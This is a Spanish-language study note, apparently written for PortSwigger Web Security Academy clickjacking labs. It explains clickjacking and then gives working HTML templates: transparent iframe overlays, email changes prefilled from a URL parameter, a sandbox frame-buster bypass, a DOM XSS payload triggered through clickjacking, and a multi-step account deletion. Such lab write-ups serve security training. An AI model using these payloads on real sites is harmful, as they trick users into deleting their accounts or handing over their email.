 
Clickjacking es un ataque basado en interfaz en el que se engaña a un usuario para que haga clic en contenido procesable en un sitio web oculto haciendo clic en algún otro contenido en un sitio web señuelo. Considere el siguiente ejemplo:

Mediante ingenieria social una victima accede a una pagina enviada por correo la cual en su interfaz dice que es el ganador de 200 dolares, para reclamarlos debe dar click en el boton `GET Money!` Ahora bien esto solo es un señuelo ya que el atacante realmente lo que hace es que crea un **iframe** para insertar o incrustar el contenido HTML dentro del contenido HTML legitimo, esto de forma oculta para que cuando la victima le de click al boton no lo diriga a obtener el dinero sino realmente a realizar un transacción por ejemplo, esto hace que sea el mismo usuario el que realicé la acción a diferencia de un ataque CSRF que en ese caso podría ser la falsificación de una solicitud del user, no el user realmente, por eso en CSRF se usan **Tokens `CSRF`** que es un numero o **Nonce** unico de la sesión de un SOLO USO.

Los ataques de clickjacking no se mitigan con el token CSRF, ya que se establece una sesión de destino con contenido cargado desde un sitio web auténtico y con todas las solicitudes que se realizan en el dominio. Los tokens CSRF se colocan en solicitudes y se pasan al servidor como parte de una sesión de comportamiento normal. La diferencia con una sesión de usuario normal es que el proceso ocurre dentro de un iframe oculto.

<hr>

Search For:

- Delete Account
- Change Email
- URL parameters to perform autofill Click Jacking
- Frame Buster bypass -> sandbox="allow-forms"
- Trigger XSS via GET parameter
- Multi step "click first", "click next" possible

Go to the exploit server and paste the following HTML template into the Body section:

```html
<style>
    iframe {
        position:relative;
        width:700px;
        height: 600px;
        opacity: 0.0001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:453px;
        left:75px;
        z-index: 1;
    }
</style>
<div>Click Me</div>
<iframe src="https://ID-LAB.web-security-academy.net/my-account"></iframe>

Make the following adjustments to the template:

* Replace YOUR-LAB-ID in the iframe src attribute with your unique lab ID.
* Substitute suitable pixel values for the $height_value and $width_value variables of the iframe (we suggest 700px and 500px respectively).
* Substitute suitable pixel values for the $top_value and $side_value variables of the decoy web content so that the "Delete account" button and the "Test me" decoy action align (we suggest 300px and 60px respectively).
* Set the opacity value $opacity to ensure that the target iframe is transparent. 
* Initially, use an opacity of 0.1 so that you can align the iframe actions and adjust the position values as necessary. For the submitted attack a value of 0.0001 will work.
```

#### Clickjacking with form input data prefilled from a URL parameter

Una verdad que nadie dice de estos labs y explotación en si es un poco castrosa, toca ajustar constantemente el marco para que se ajuste perfectamente en la posición y ocultación perfecta, además de que el click debe tener el nombre exacto de la funcionalidad que queremos secuestrar de click del user, por ejm: en este caso es actualizar email, el div con el click quedó como `Update Email`

```html
<style> 
	iframe { 
		position:relative; 
		width:700px; 
		height: 600px; 
		opacity: 0.0001; 
		z-index: 2; 
	} 
	div { 
		position:absolute; 
		top:453px; 
		left:75px; 
		z-index: 1; 
	} 
</style> 
<div>Update Email</div>
<iframe src="https://0ad100b3042fc74e837d426800270005.web-security-academy.net/my-account?email=hacker@exploit-0adb00570437c7d38390415301ad0025.exploit-server.net"></iframe>


```

#### Clickjacking with a frame buster script `sandbox="allow-forms"`

```html
add sanbox="allow-forms" in your iframe to bypass

<style>
    iframe {
        position:relative;
        width:700px;
        height: 600px;
        opacity: 0.0001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:453px;
        left:75px;
        z-index: 1;
    }
</style>
<div>Click Me</div>
<iframe src="https://LAB-ID.web-security-academy.net/my-account?email=test@hacker.com" sandbox="allow-forms"></iframe>
```

#### Exploiting clickjacking vulnerability to trigger DOM-based XSS 

El DOM-XSS de esta está en la funcionalidad `submit feedback` sin embargo en un escenario de la vida real o en el exam BSCP, varia claramente.

```html
<style>
    iframe {
        position:relative;
        width:700px;
        height: 500px;
        opacity: 0.0001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:583px;
        left:75px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://LAB-ID.web-security-academy.net/feedback?name=<img src=x onerror=print()>&email=attacker@e.com&subject=Test&message=pruebaVe"></iframe>
```

##### Multi-step click jacking

Delete and confirm account deleted, un error mio y que no me dejo solucionar este lab por un buen rato fue por la puta identación de CSS, la gran marica estaba mal espaciada y no me leia bien el iframe cuando lo almacenaba en el server exploit. 

```html

<style> 
	iframe { 
		position:relative; 
		width: 500px; 
		height: 700px; 
		opacity: 0.1; 
		z-index: 2; 
	} 
	.firstClick, .secondClick { 
		position:absolute; 
		top: 495px; 
		left: 50px; 
		z-index: 1; 
	} 
	.secondClick { 
		top: 290px; 
		left: 205px; 
	} 	
</style> 
<div class="firstClick">Click me first</div> 
<div class="secondClick">Click me next</div>
<iframe src="https://LAB-ID.web-security-academy.net/my-account?id=wiener"></iframe>


<style>
	iframe {
		position:relative;
		width:$width_value;
		height: $height_value;
		opacity: $opacity;
		z-index: 2;
	}
   .firstClick, .secondClick {
		position:absolute;
		top:$top_value1;
		left:$side_value1;
		z-index: 1;
	}
   .secondClick {
		top:$top_value2;
		left:$side_value2;
	}
</style>
<div class="firstClick">Test me first</div>
<div class="secondClick">Test me next</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
```


